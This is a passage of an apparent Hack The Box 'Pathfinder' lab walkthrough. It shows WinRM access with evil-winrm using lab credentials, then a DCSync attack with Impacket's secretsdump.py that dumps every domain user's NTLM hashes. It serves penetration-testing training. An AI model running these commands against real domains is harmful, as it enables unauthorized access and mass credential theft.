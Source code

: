 It is now possible to access the server as **svc\_bes** using **WinRM **

(With the **nmap scan** we noted that WinRM was enabled on port
**5985)**

<br>

 **Let’s install “*evil-winrm*” (Installation directly as ruby gem)**
```
kali@kali:~/HTB/StartingPoint/Pathfinder$ sudo gem install evil-winrm
```
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image151.png"></div>


And run it against 10.10.10.30 using “svc\_bes” credentials
``` shell
kali@kali:~/HTB/StartingPoint/Pathfinder$ sudo evil-winrm -i 10.10.10.30 -u svc\_bes -p Sheffield19
```
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image152.png"></div>


### &#9702; Privilege Escalation

<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image153.png"></div>


In order to leverage the **GetChangesAll** permission, we can use secretsdump.py (link) from Impacket to perform a DCSync attack and dump the NTLM hashes of all domain users. 
```shell
kali@kali:~/HTB/StartingPoint/Pathfinder$ sudo secretsdump.py -dc-ip 10.10.10.30 MEGACORP.LOCAL/svc\_bes:Sheffield19@10.10.10.30
```
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="80%"  src="media/image154.png"></div>
